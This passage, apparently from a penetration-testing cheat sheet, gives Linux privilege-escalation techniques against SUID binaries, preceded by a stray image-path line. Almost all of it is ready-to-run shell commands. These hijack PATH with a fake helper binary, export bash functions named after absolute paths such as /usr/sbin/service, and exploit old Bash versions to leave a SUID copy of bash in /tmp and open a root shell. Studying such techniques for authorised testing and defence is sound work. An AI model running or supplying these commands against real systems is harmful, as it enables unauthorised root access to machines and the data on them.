 ````bash
ltrace /usr/local/bin/suid-binary 2>&1 | grep -E "system|exec|popen"

# Modify PATH to include our malicious directory
export PATH=/tmp:$PATH

# Create malicious binary matching the relative call name
cat > /tmp/program_name << EOF
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
EOF
chmod +x /tmp/program_name

# Execute the SUID binary
/usr/local/bin/suid-binary

# Run with elevated privileges
/tmp/rootbash -p
````

#### For Absolute Binary References

Requirements:

- SUID binary makes absolute calls to other programs

```bash
# Create function with the absolute path name
function /usr/sbin/service() { 
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash
}

# Export the function
export -f /usr/sbin/service

# Execute the SUID binary
/usr/local/bin/suid-binary

# Run with elevated privileges
/tmp/rootbash -p
```

### Abusing Shell Features (Bash < 4.2-048)

```bash
# Verify bash version is vulnerable
bash --version

# Create a bash function with absolute path
function /usr/sbin/service { /bin/bash -p; }

# Export the function
export -f /usr/sbin/service

# Execute the SUID binary
/usr/local/bin/suid-binary
```
